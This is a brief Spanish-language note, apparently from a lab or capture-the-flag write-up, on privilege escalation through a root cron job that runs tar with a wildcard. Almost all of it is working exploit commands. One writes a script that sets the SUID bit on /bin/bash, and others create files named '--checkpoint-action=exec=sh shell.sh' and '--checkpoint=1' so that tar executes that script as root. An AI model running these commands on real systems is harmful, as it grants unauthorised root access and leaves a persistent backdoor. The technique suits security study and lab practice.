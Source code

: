 # Tar
Crontab se ve así:
```
* *   * * *   cd /opt/secret/ && tar -zcf /var/backups/secret.tgz *
```
Vamos a /opt/secret
```
echo "#!/bin/bash\nchmod u+s /bin/bash" > shell.sh
---
echo "" > "--checkpoint-action=exec=sh shell.sh"
---
echo "" > --checkpoint=1
```
